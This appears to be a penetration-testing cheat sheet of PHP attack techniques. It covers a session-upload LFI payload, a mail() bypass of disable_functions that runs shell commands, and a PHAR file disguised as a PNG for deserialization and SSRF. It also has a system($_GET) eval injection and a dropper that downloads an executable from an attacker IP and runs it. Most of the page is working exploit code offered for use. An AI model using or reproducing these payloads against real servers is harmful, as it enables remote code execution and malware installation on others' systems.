 # PHP

### Dangerous Functions

### PHP Temporary Files

PHP will create temporary files for files send with POST and for sessions. If we have a LFI we can get our php code onto the box and then include these.

#### PHP\_SESSION\_UPLOAD\_PROGRESS \(will create sess\_xct in /tmp\):

```text
curl --path-as-is '127.0.0.1/' -F 'PHP_SESSION_UPLOAD_PROGRESS=<payload' -F 'data=@dummy.txt' -H 'Cookie: PHPSESSID=xct';
```

### Disable Functions Bypass

#### Mail

```php
<?php
  file_put_contents('/tmp/exploit',"whoami>/tmp/output");
  mail("a","b","c","d","-H 'bash /tmp/exploit'");
?>
```

#### PHP7 Backtrace

[https://raw.githubusercontent.com/mm0r1/exploits/master/php7-backtrace-bypass/exploit.php](https://raw.githubusercontent.com/mm0r1/exploits/master/php7-backtrace-bypass/exploit.php)

### Interesting Behavior

PHP's `REQUEST` takes values from GET, POST and also COOKIE. This can lead to some interesting behavior by setting GET/POST and COOKIE parameters to different values. Values from COOKIE are disabled by default though.

### PHAR SSRF

If we have a file\_exists or similar method on uploaded content, we can request via phar:// wrapper. This allows to use deserialization gadgets.

```php
function generate_base_phar($o, $prefix){
    global $tempname;
    @unlink($tempname);
    $phar = new Phar($tempname);
    $phar->startBuffering();
    $phar->addFromString("test.txt", "$prefix xct_was_here");
    $phar->setStub("$prefix<?php __HALT_COMPILER(); ?>");
    $phar->setMetadata($o);
    $phar->stopBuffering();    
    $basecontent = file_get_contents($tempname);
    @unlink($tempname);
    return $basecontent;
}

$object = new <Your Class>;
var_dump(serialize($object));

# prefix for faking a valid png
$prefix = "\x89\x50\x4e\x47\x0d\x0a\x1a\x0a\x00\x00\x00\x0d\x49\x48\x44\x52\x00\x00\x05\x0a\x00\x00\x01\x56";
$tempname = 'temp.phar'; // make it phar
$outfile = 'out.png';
file_put_contents($outfile, generate_base_phar($object, $prefix));
```

If no good gadgets are available SoapClient can be used to SSRF via gopher to other local services like MySQL.

### Eval Code Injection

Simple but effective:

```php
${system($_GET[1])}&1=ls
```

### Upload & Execute File

```text
<?php
    $data = file_get_contents("http://10.10.14.51/xc.exe");
    file_put_contents( "C:\\programdata\\xc_10.10.14.51_8080.exe", $data);
    system("C:\\programdata\\xc_10.10.14.51_8080.exe");
?>
```

